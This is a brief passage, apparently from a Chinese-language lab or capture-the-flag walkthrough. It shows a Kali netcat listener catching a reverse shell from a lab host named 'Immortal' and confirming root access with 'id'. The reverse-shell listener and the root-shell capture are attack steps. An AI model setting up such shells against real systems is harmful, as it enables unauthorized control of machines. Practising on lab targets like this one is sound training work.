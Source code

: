监听

```bash
┌──(kali㉿kali)-[~/test]
└─$ nc -lvnp 8899
listening on [any] 8899 ...
connect to [192.168.205.141] from (UNKNOWN) [192.168.205.223] 48726
bash: cannot set terminal process group (15372): Inappropriate ioctl for device
bash: no job control in this shell
root@Immortal:/# id
id
uid=0(root) gid=0(root) groups=0(root)

```

成功拿到**root**权限